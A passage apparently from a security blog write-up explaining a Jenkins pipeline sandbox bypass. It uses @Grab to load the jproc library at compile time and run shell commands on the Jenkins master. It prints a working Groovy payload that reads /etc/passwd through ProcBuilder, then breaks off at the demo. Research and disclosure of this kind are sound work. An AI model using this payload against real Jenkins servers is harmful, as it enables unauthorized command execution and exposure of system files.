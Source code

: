 So the idea is: we need the Jenkins master process runner to import a java class with command execution functionality during job script compile-time.
Then, we use that java class to execute shell command in Jenkins master.


## Using @Grab to import malicious class

Some googling leads us to a java library called `jproc`.
After quick examination, we can use [`ProcBuilder`](https://github.com/fleipold/jproc/blob/master/src/main/java/org/buildobjects/process/ProcBuilder.java) class defined in [`org.buildobjects:jproc:2.2.3`](https://mvnrepository.com/artifact/org.buildobjects/jproc/2.2.3) to run system shell command.

So, putting everything together, the payload is defined as below:

```java
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }
print new ProcBuilder("/bin/bash").withArgs("-c","cat /etc/passwd").run().getOutputString()
```

## RCE Demo

Let's try putting the pipeline script in a Jenkins Job with _Use Groovy Sandbox_ enabled.

![Job Script in Jenkins](/post_assets/001/jenkins-job-script.png)
